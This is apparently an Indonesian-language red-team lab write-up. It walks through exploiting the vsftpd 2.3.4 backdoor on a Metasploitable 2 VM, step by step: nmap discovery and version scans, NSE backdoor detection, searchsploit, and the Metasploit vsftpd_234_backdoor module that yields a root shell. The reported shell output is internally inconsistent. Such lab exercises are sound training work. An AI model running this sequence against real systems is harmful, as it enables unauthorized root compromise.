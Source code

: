 # Exploit vsftpd 2.3.4 Backdoor di Metasploitable 2 (CVE-2011-2523)

## Overview
vsftpd 2.3.4 adalah versi FTP daemon dengan backdoor tersembunyi pada koneksi port 6200/tcp yang memungkinkan command execution sebagai root. Di Metasploitable 2 (VM vulnerable Linux), port 21 (FTP) terbuka dengan anonymous access. Exploit ini melibatkan:
- **Nmap**: Scan port, operating system dan service detection.
- **NSE (Nmap Scripting Engine)**: Deteksi login pengguna anonymous dengan `ftp-anon.nse` dan backdoor dengan script `ftp-vsftpd-backdoor`.
- **Metasploit**: Trigger backdoor untuk shell root.

**Target**: Metasploitable 2 VM.  
**Risiko**: Hanya untuk lab etis; jangan gunakan di sistem produksi.

## Tools Used
<div style="display: flex; gap: 5px; flex-wrap: wrap;">
<img src="https://img.shields.io/badge/-Nmap-FF0000?style=flat&logo=nmap&logoColor=white" />
<img src="https://img.shields.io/badge/-NSE-FF0000?style=flat&logo=nmap&logoColor=white" />
<img src="https://img.shields.io/badge/-Metasploit-E23B23?style=flat&logo=metasploit&logoColor=white" />
</div>

## Process
1. **Periksa IP Address pada Host Local**:
   > Command Line: `ip a` (tampilkan konfigurasi IP Address).

3. **Temukan Host Target**:
   > Command Line: `nmap -sn 192.168.56.0/24` (ping scan).

4. **Deteksi Ports Terbuka, Services dan Operating System**:
   > Command Line: `nmap -sS -sV -O 192.168.56.101` (SYN scan, service version dan operating system detection).

5. **Cari NMAP NSE untuk vsftpd**:
   > Command Line: `ls -al /usr/share/nmap/scripts | grep vsftpd` atau `ls -al /usr/share/nmap/scripts | grep ftp`.

6. **Deteksi Login Anonymous**:
   > Command Line: `nmap --script=/usr/share/nmap/scripts/ftp-anon.nse 192.168.56.101 >> ftp-anon.txt` (NSE anonymous ftp login detection).

7. **Validasi Anonymous Login**:
   > Command Line: `tnftp 192.168.56.101`. <br />
   > Result: Login pengguna anonymous berhasil.

8. **Deteksi Backdoor**:
   > Command Line: `nmap --script=/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse 192.168.56.101 >> vsftpd-backdoor.txt` (NSE vsftpd backdoor detection).

10. **Cari Module Exploit untuk Backdoor**:
    > Command Line: `searchsploit vsftpd` (search metasploit module untuk vsftpd).

12. **Exploit dengan Metasploit Framework**:
    > Buka metasploit framework: `sudo msfconsole`. <br />
    > Gunakan module: `use exploit/unix/ftp/vsftpd_234_backdoor`. <br />
    > Set options: `set RHOSTS 192.168.56.101`. <br />
    > Jalankan: `exploit`. <br />
    > Result: Backdoor triggered, dapat root shell (UID: uid=0(1000) gid=0(1000), target:192.168.56.101:6200).

## References
- [Metasploit Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
- [Nmap NSE Script](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html)

[Back to Red Team Labs](https://github.com/lilulil-akbar/red-team-labs)
